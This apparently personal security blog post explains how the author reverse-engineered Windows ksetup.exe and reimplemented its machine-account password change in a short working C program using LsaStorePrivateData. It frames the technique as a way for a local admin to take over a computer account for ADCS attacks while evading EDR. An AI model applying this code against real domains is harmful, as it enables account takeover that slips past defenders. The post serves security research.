





Yesterday I stumbled upon an [old tweet](https://twitter.com/Oddvarmoe/status/1641712700605513729) from [@Oddvarmoe](https://twitter.com/Oddvarmoe).
In it, he described that a local admin can use the built-in `ksetup.exe` to change the password of the machine account.
This only takes effect after a reboot, but it got me thinking.  
Sometimes, you are local admin and need control over a computer account, for example as a precondition for [ADCS ESC1 or ESC4](https://posts.specterops.io/certified-pre-owned-d95910965cd2).
The obvious solutions would include elevating to system or dumping LSA, i.e. extracting the computer password from the registry.
But, depending on how you do it, an EDR won't like it.
So, how about setting a new password instead?

With that idea in mind, I wanted to figure out how `ksetup.exe` changes the machine password.
As a first step I looked at the events that were captured by [ProcMon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon).
While I didn't see much, I did notice operations on various LSA and RPC-related registry keys.

Next, I threw `ksetup.exe` into [Ghidra](https://github.com/NationalSecurityAgency/ghidra).
After [acquiring symbols](https://clearbluejar.github.io/posts/everyday-ghidra-symbols-automatic-symbol-acquisition-with-ghidra-part-2/) for the executable, I found a function called `SetMachinePassword`, which sounded rather promising.
Thankfully, the function was easy to understand.
The documentation of [LsaOpenPolicy](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaopenpolicy) and [LsaStorePrivateData](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsastoreprivatedata) answered my remaining questions.

This resulted in the following reimplementation:

~~~ c
#include <windows.h>
#include <winternl.h>
#include <ntsecapi.h>

// x86_64-w64-mingw32-gcc -Wall -Wextra -pedantic -O2 ./ksetup.c -o ./ksetup.exe -static -lntdll -municode

struct LSA_OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  LSA_UNICODE_STRING* ObjectName;
  ULONG Attributes;
  VOID* SecurityDescriptor;
  VOID* SecurityQualityOfService;
};

int wmain(int argc, wchar_t* argv[]) {
    if (argc != 2) return 1;
    wchar_t* password = argv[1];

    NTSTATUS status;

    LSA_OBJECT_ATTRIBUTES attrs = {};
    LSA_HANDLE handle = nullptr;
    status = LsaOpenPolicy(nullptr, &attrs, 0, &handle);
    if (status) return status;

    LSA_UNICODE_STRING keyName;
    LSA_UNICODE_STRING privateData;
    RtlInitUnicodeString((UNICODE_STRING*) &keyName, L"$MACHINE.ACC");
    RtlInitUnicodeString((UNICODE_STRING*) &privateData, password);
    status = LsaStorePrivateData(handle, &keyName, &privateData);
    if (status) return status;

    return 0;
}
~~~

After some fighting with MinGW, it actually worked :D  
And the two EDRs I tested against did not blink an eye.

# Bonus

While testing my implementation, I noticed something strange.
After the new password took effect, the old password kept working for a while, but only for NTLM authentication.
It's new to me that an account can have multiple valid passwords at the same time.

Update:
It turns out that this is [documented](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/new-setting-modifies-ntlm-network-authentication) behaviour.
Thanks to [@filip_dragovic](https://twitter.com/filip_dragovic/status/1956767703131398269) for the link.
